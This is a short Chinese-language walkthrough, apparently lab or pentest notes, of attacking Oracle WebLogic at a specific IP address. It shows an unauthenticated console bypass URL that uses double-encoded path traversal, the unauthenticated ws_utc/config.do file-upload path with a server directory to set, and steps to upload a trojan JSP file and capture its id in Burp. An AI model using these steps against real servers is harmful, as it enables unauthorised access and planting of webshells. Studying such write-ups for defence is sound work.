 ​      

## 未经授权登录界面



```
http://101.43.121.119:7001/console/css/%252e%252e%252fconsole.portal	

```

## 任意文件上传漏洞

未授权访问路径：

```
101.43.121.119:7001/ws_utc/config.do
```

更改默认路径为：

```
/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css
```

![image-20220113160852463](https://gitee.com/xxb667/img/raw/master/img/image-20220113160852463.png)



保存成功后，点击【安全】

![image-20220113160935594](https://gitee.com/xxb667/img/raw/master/img/image-20220113160935594.png)



## 上传木马文件

我们上传文件的时候进行**抓包**处理

![image-20220113161154509](https://gitee.com/xxb667/img/raw/master/img/image-20220113161154509.png)





![image-20220113150337697](https://gitee.com/xxb667/img/raw/master/img/image-20220113150337697.png)

### burp进行文件抓包

上传文件时，用burp进行抓包

得到对应的jsp文件的id信息

```
1642061164317
```

![image-20220113151120155](https://gitee.com/xxb667/img/raw/master/img/image-20220113151120155.png)
